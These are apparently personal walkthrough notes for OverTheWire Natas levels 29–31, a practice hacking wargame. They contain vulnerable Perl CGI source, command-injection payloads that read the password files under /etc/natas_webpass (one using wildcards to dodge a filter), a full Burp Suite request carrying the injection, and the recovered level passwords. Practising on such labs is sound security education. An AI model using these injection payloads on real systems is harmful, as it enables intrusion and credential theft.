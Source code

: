 ```perl
    $f=param('file');
    if($f=~/natas/){
        print "meeeeeep!<br>";
    }
    else{
        open(FD, "$f.txt");
        print "<pre>";
        while (<FD>){
            print CGI::escapeHTML($_);
        }
        print "</pre>";
    }
}

print <<END;
<div id="viewsource">c4n Y0 h4z s4uc3?</div>
</div>
</body>
</html>
END

```
- 
- There are a few options here for bypassing disallowed strings, the one I found was inspired by this CTF writeup. It uses wildcards to match a directory or file name. We have command injection working, we know how the filtering works. To get the flag printed, we can swap out one character in each “natas” with a ?: `|cat /etc/n?tas_webpass/n?tas30 %00`
- http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/n?tas_webpass/n?tas30%20%00
- WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH


## 30->31
- http://natas30.natas.labs.overthewire.org/
- `natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y`
- https://learnhacking.io/overthewire-natas-level-30-walkthrough/
- https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection/175872#175872


## 31->32
- http://natas31.natas.labs.overthewire.org/
- `natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B`
- https://learnhacking.io/overthewire-natas-level-31-walkthrough/
- `cgi` perl exploit
- https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf?ref=learnhacking.io
- https://www.youtube.com/watch?v=RPvORV2Amic&t=1305s&ab_channel=media.ccc.de

Request used in Burp Suite Repeater
```
POST /index.pl?cat%20/etc/natas_webpass/natas32%20| HTTP/1.1
Host: natas31.natas.labs.overthewire.org
Content-Length: 383
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMTptN2JmakFIcEptU1lnUVdXZXFSRTJxVkJ1TWlSTnEweQ==
Accept-Language: en-US,en;q=0.9
Origin: http://natas31.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylrrZCTqDvB2wjAi6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```